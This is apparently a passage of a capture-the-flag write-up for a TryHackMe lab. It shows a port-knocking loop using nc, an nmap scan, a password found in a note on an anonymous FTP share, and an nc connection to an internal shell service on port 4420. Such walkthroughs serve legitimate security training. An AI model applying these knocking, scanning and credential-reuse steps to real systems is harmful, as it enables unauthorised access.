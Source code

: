 - this was a hint for port knocking


```
 port knocking is a method of externally opening [ports]non a [firewall]by generating a connection attempt on a set of prespecified closed ports. 
 
 Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s).
```


- used this writeup bash script for port knocking command

```bash
for PORT in 1111 2222 3333 4444; do nc -vz TARGET_IP $PORT; done;
```

```bash
   │   ~ ▓▒░ for PORT in 1111 2222 3333 4444; do nc -vz 10.10.125.234 $PORT; done;
```


- after running the above command, we do a port scan
```
   │   ~ ▓▒░  nmap -p 21,22,2375,4420,8080 10.10.125.234                                      ░▒▓ 1 ✘ │ 18:12:05   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-02 18:12 IST
Nmap scan report for 10.10.125.234
Host is up (0.13s latency).

PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
2375/tcp closed docker
4420/tcp open   nvm-express
8080/tcp open   http-proxy

```


- now we see an ftp port as open with anonymous login allowed and we find a `note.txt` with the content

```
cat note.txt                                                                       ░▒▓ ✔ │ 18:14:04   
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

- now as per the note i connected to he `4420` port with the command
```
   │   ~/De/THM/cat-pictures ▓▒░ nc -v 10.10.125.234 4420

Please enter password:
sardinethecat
```
